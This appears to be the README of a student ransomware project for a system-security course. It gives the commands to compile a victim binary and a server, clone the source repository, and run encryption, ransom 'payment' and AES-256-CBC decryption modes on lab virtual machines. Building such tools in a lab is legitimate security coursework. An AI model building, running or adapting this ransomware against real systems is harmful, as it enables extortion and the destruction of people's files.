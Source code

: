 # ransom

As part of my studies in system security at Henallux, I have to realize a ransomware


**Make sure you have the OpenSSL library installed on your machines**
```shell
user@hostname$ sudo apt-get install libssl-dev
```
## Compilation of ransom.c and server.c
**On Victim machine :**
```shell
gcc -Wall -o ransom ransom.c ransomlib.c -lcrypto
```
**On Server machine :**
```shell
gcc -o server server.c
```
## Installation
You must have 2 virtual machines (victim and server). Put **server** files into server VM and the **ransom** files into victim VM.

or, on each VMs, run the following command to clone the repository:
```shell
user@hostname$ git clone https://github.com/Asb023/ransomware.git
```

## Execution
### Encryption

```shell
user@hostname$ ./ransom -e [path]
```
- ***-e*** : Ransomware encryption mode
- ***[path]*** : Start path of encryption [char *]

### Payment

```shell
user@hostname$ ./ransom -pay
```
- ***-pay*** : Payment mode

**Warning :** Without running this command, you will not be able to decrypt!

### Decryption
```shell
user@hostname$ ./ransom -d [path] [key] [iv]
```
- ***-d*** : Ransomware decryption mode
- ***[path]*** : Start path of encryption [char *]
- ***[key]*** : AES-256-CBC symetric key in hexadecimal [char *] - optional parameter
- ***[iv]*** : Initializing vector in hexadecimal [char *] - optional parameter

**PS :** If you pay the ransom, you can execute this without filling in the key and the iv.
### Help

```shell
user@hostname$ ./ransom -usage
```
- ***-usage*** : Display the ransomware help
